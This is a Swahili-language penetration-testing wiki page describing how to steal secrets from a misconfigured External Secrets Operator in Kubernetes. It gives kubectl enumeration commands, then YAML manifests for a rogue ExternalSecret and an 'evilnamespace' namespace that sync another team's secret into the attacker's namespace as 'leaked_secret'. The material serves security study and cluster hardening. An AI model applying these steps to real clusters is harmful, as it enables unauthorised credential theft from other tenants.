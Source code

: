 # External Secret Operator

**Mwandishi wa awali wa ukurasa huu ni** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ukurasa huu unatoa vidokezo juu ya jinsi unavyoweza kufanikisha wizi wa siri kutoka kwa ESO isiyo na usanidi mzuri au programu inayotumia ESO kusawazisha siri zake.

## Disclaimer

Mbinu iliyoonyeshwa hapa chini inaweza kufanya kazi tu wakati hali fulani zinakutana. Kwa mfano, inategemea mahitaji yanayohitajika kuruhusu siri kusawazishwa kwenye namespace ambayo unamiliki / umevamia. Unahitaji kujifunza mwenyewe.

## Prerequisites

1. Kuwepo katika klasta ya kubernetes / openshift yenye haki za admin kwenye namespace
2. Ufikiaji wa kusoma angalau ExternalSecret katika ngazi ya klasta
3. Jifunze kama kuna lebo / maelezo yoyote au uanachama wa kikundi unaohitajika ambayo inaruhusu ESO kusawazisha siri yako. Ikiwa una bahati, unaweza kuiba siri yoyote iliyofafanuliwa kwa urahisi.

### Gathering information about existing ClusterSecretStore

Kukisia kwamba una watumiaji ambao wana haki za kutosha kusoma rasilimali hii; anza kwa kwanza kuorodhesha _**ClusterSecretStores**_ zilizopo.
```sh
kubectl get ClusterSecretStore
```
### ExternalSecret enumeration

Tuchukulie kuwa umepata ClusterSecretStore inayoitwa _**mystore**_. Endelea kwa kuorodhesha externalsecret zake zinazohusiana.
```sh
kubectl get externalsecret -A | grep mystore
```
_Resursi hii ina kiwango cha namespace hivyo isipokuwa unajua tayari ni namespace ipi ya kutafuta, ongeza chaguo -A kutafuta katika namespaces zote._

Unapaswa kupata orodha ya externalsecret zilizofafanuliwa. Tuone umefind externalsecret object inayoitwa _**mysecret**_ iliyofafanuliwa na kutumika na namespace _**mynamespace**_. Kusanya taarifa zaidi kuhusu ni aina gani ya siri inayoishikilia.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Kuunganisha vipande

Kutoka hapa unaweza kupata jina la moja au majina kadhaa ya siri (kama ilivyoainishwa katika rasilimali ya Siri). Utapata matokeo yanayofanana na:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
Hadi sasa tumepata:

- Jina la ClusterSecretStore
- Jina la ExternalSecret
- Jina la siri

Sasa kwamba tuna kila kitu tunachohitaji, unaweza kuunda ExternalSecret (na hatimaye kuboresha/kuunda Namespace mpya ili kuzingatia mahitaji yanayohitajika ili kupata siri yako mpya iunganishwe):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Baada ya dakika chache, ikiwa masharti ya usawazishaji yamekamilika, unapaswa kuwa na uwezo wa kuona siri iliyovuja ndani ya nafasi yako.
```sh
kubectl get secret leaked_secret -o yaml
```
## Marejeo

{{#ref}}
https://external-secrets.io/latest/
{{#endref}}

{{#ref}}
https://github.com/external-secrets/external-secrets
{{#endref}}
